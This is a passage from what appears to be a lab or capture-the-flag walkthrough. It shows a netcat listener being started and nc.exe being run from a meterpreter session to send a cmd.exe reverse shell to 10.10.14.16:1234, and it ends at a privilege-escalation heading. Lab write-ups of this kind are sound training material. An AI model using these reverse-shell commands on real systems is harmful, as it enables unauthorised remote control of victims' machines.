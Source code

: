 We can see now the nc.exe program in the “upload” folder

![](media/image106.png)

### &#9676; ***Using Netcat***

On another terminal we can now launch a listener
``` shell
  ------------------
  **nc -lvp 1234**
  ------------------
```
![](media/image107.png)

Next, we can execute the following command into the meterpreter session
``` shell
  --------------------------------------------------------
  **execute -f nc.exe -a "-e cmd.exe 10.10.14.16 1234"**
  --------------------------------------------------------
```
![](media/image108.png)

And we get a netcat shell:

![](media/image109.png)

### &#9676; Privilege Escalation
======================
